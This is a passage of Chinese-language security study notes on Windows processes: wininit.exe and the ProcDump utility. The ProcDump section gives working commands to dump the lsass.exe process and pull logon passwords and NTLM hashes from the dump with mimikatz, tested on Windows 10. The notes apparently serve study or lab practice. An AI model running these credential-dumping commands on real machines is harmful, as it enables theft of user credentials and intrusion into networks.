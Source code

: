 wuauclt.exe wsus windows server update service 

# 14 wininit.exe

**定义**：wininit.exe是Windows NT 6.x系统的一个核心进程。

wininit.exe的工作是开启一些主要的Vista-Win7、Win8后台服务，比如中央[服务管理器](https://baike.baidu.com/item/服务管理器/7371663)Service Central Manager ([SCM](https://baike.baidu.com/item/SCM/2039966))，本地安全验证子系统Local Security Authority Subsystem ([LSASS](https://baike.baidu.com/item/LSASS/6510438)) 和本地会话管理器Local Session Manager ([LSM.EXE](https://baike.baidu.com/item/LSM.EXE/3372303)).

**位置**：wininit.exe位于 C:\Windows\System32\ wininit.exe，对用户不可见，完全运行在系统背景中，并且可以记录的计算机的输入和执行其它程序。

**wininit.exe的错误样例**："Wininit.exe Cannot Be Run from Within Windows."如果你的系统被病毒感染，你将收到这一段信息。 Viruses Win32.Weird 和Bymer是已知的wininit.exe相关的病毒。

ime input method editor

# 15 procdump 

ProcDump 是一个命令行的实用工具，其主要目的是**监测应用程序**如何**使 CPU 达到峰值（spike）以及生成崩溃转储（crash dumps）**，管理员或开发人员可以利用这个工具确定造成 CPU 达到峰值的原因。

dmp文件：dmp是系统错误产生的文件

原理： lsass.exe 进程 (它用于本地安全和登陆策略) 中存储的明文登录密码。

示例：![image-20210209160652926](../image/image-20210209160652926.png)

*读取操作实验

1.使用systeminternal的工具procdump，或者手工找到进程lsass.exe，右键转存。

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

2.使用mimikatz读取dmp文件内容

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
或
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

这里使用win10测试，发现password那里显示是null，但是拿ntlm解密是可以接到的（弱密码）
